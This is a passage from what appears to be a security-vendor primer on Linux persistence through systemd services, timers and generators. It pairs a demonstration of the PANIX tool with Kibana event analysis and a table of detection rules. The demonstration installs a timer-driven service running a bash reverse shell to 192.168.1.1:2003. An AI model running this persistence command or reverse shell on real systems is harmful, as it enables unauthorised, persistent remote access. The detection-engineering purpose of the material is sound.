 Which creates a new service (`generator.service`), which in turn executes `/usr/lib/systemd/system-generators/makecon` on boot. As this method creates a service (albeit via a generator), we will take a closer look at systemd service persistence. Let's examine how these work in practice.

### Persistence through T1453/T1053 - systemd services, timers and generators

You can manually create the unit file in the appropriate directory, reload the daemon, enable and start the service, or use PANIX to do that for you. PANIX will create a service unit file in the specified directory, which in turn runs the custom command at a one-minute interval through a timer unit file. You can also use `--default` with` --ip`, `--port,` and `–-timer`.

```
sudo ./panix.sh --systemd --custom --path /etc/systemd/system/panix.service --command "/usr/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.1/2003 0>&1'" --timer
Service file created successfully!
Created symlink /etc/systemd/system/default.target.wants/panix.service → /etc/systemd/system/panix.service.
Timer file created successfully!
Created symlink /etc/systemd/system/timers.target.wants/panix.timer → /etc/systemd/system/panix.timer.
[+] Persistence established. 
```

When a service unit is enabled, systemd creates a symlink in the `default.target.wants/` directory (or another appropriate target directory). This tells systemd to start the `panix.service` automatically when the system reaches the `default.target`. Similarly, the symlink for the timer unit file tells systemd to activate the timer based on the schedule defined in the timer unit file.

We can analyze and find out what happened when looking at the documents in Kibana: 

![Events generated as a result of systemd service/timer persistence establishment](/assets/images/primer-on-persistence-mechanisms/image9.png "Events generated as a result of systemd service/timer persistence establishment")

PANIX is executed, which creates the `panix.service` and `panix.timer` units in the corresponding directories. Then, `systemctl` is used to reload the daemons, after which the `panix.timer` is enabled and started, enabling systemd to run the `ExecStart` section of the service unit (which initiates the outbound network connection) every time the timer hits. To detect potential systemd persistence, we leverage the following behavioral rules:

| Category | Coverage                                           |
|----------|----------------------------------------------------|
| File     | [Systemd Service Created](https://github.com/elastic/detection-rules/blob/main/rules/linux/persistence_systemd_service_creation.toml)                            |
|          | [Systemd Timer Created](https://github.com/elastic/detection-rules/blob/main/rules/linux/persistence_systemd_scheduled_timer_created.toml)                              |
|          | [Systemd Generator Created](https://github.com/elastic/detection-rules/blob/main/rules/linux/persistence_systemd_generator_creation.toml)                          |
|          | [Suspicious File Creation in /etc for Persistence](https://github.com/elastic/detection-rules/blob/main/rules/linux/persistence_etc_file_creation.toml)   |
| Process  | [Systemd Service Started by Unusual Parent Process](https://github.com/elastic/detection-rules/blob/main/rules/linux/persistence_systemd_service_started.toml)  |
|          | [Hidden Payload Executed via Scheduled Job](https://github.com/elastic/protections-artifacts/blob/main/behavior/rules/linux/persistence_hidden_payload_executed_via_scheduled_job.toml)          |
|          | [Scheduled Job Executing Binary in Unusual Location](https://github.com/elastic/protections-artifacts/blob/main/behavior/rules/linux/persistence_scheduled_job_executing_binary_in_unusual_location.toml) |
|          | [Scheduled Task Unusual Command Execution](https://github.com/elastic/protections-artifacts/blob/main/behavior/rules/linux/persistence_scheduled_task_unusual_command_execution.toml)           |
